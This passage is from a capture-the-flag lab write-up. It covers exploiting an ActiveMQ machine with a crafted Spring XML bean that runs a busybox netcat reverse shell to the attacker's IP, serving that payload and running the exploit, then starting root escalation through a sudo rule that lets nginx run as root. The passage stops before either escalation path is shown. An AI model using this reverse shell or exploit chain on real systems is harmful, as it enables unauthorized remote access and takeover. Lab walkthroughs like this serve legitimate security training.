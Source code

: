 ```xml
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>busybox nc 10.10.16.46 4444 -e /bin/bash #you can put your revshell</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
Now that we have our payload we need to start a python server and run the exploit:
```bash
python3 -m http.server 80
go run main.go -i 10.10.11.243 -u http://10.10.16.46/poc.xml
```
We have our callback!!
	
![callback](./pic/callback.png)
	

# Root

Once we are in the machine i runned the basic commands for privesc before running linepeas and so on..
```bash
sudo -l
```
output:
```bash
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
That is interesting!<br>
We can run a nginx server as root.<br>
Now there are a bunc of ways to continue, in fact we can have an lfi where we can get every file from the file system or we can get code execution but take just a few step more. I showcase both of the path:
